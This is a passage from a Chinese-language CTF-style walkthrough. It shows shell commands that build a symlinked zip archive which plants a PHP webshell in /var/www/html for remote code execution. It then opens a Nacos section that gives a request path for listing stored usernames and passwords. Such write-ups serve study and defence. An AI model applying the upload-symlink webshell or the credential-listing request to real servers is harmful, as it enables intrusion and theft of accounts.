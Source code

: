 接着构造第二个压缩包2.zip

创建一个link目录(因为上一个压缩包里边目录就是link)，在link目录下写一个shell.php文件，文件中写入木马文件，这里先写入phpinfo()进行测试

```plain
┌──(root㉿kali)-[~/桌面]
└─# rm link
┌──(root㉿kali)-[~/桌面]
└─# mkdir link
┌──(root㉿kali)-[~/桌面]
└─# cd link 
┌──(root㉿kali)-[~/桌面/link]
└─# echo "<?php phpinfo();" > shell.php
┌──(root㉿kali)-[~/桌面/link]
└─# cd ../
┌──(root㉿kali)-[~/桌面]
└─# zip -r 2.zip link
```

我们将1.zip 和2.zip 依次 上传，压缩包会被解压到tmp目录下，但是当我们上传第二个压缩包时会覆盖上一个link目录，但是link目录软链接指向`/var/www/html`解压的时候会把`shell.php`放在`/var/www/html`下，此时我们就达到了getsehll的目的。

接着直接访问根目录下的shell.php，即可直接通过system命令实现RCE

- - -

## Nacos漏洞

**一、前置知识**

**1.1 Spring Cloud Gateway**

Spring Cloud Gateway是一个基于Spring Framework的轻量级API网关服务，它提供了一种简单而灵活的方式来构建和管理微服务架构中的路由、负载均衡、安全性和监控等功能。简单理解为一个具有丰富功能的微服务网关，它可以拦截客户端的请求，然后根据`predicates`（断言）来为该请求分配合适的后端应用。

例如当用户请求`http://192.168.1.1:80/app`时，网关可以配置将其转发到APP应用服务器`http://192.168.2.2:8080/app`上，又或者使用`Filter`拦截器，为请求增加某些内容或者为服务器响应增加某些内容

**1.2 `nacos`**

`Nacos`可以理解为一个统一管理的配置注册中心，配置了`nacos`后，项目中的配置文件便可以通过`Nacos`来动态修改。应用通过注册到`` `Nacos ``中，然后绑定组和`dataID`的形式，来绑定`Nacos`上创建的动态配置文件，当`Nacos`上所绑定的配置文件发布了新版时，应用将从`Nacos`中自动同步新的配置，大大增加了灵活性

**二、Nacos 漏洞利用**

**1、获取已有的用户列表的账号和密码**

在路径后面加上`/nacos/v1/auth/users?pageNo=1&pageSize=9`可以获取到已有的用户名和密码

> 本次复现的漏洞环境是ctfshow中的，所以路径可能有些不一样

[![](assets/1700442594-6fb89733344fc854812cd3e72226f487.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231118155257-7d2472c0-85e7-1.png)
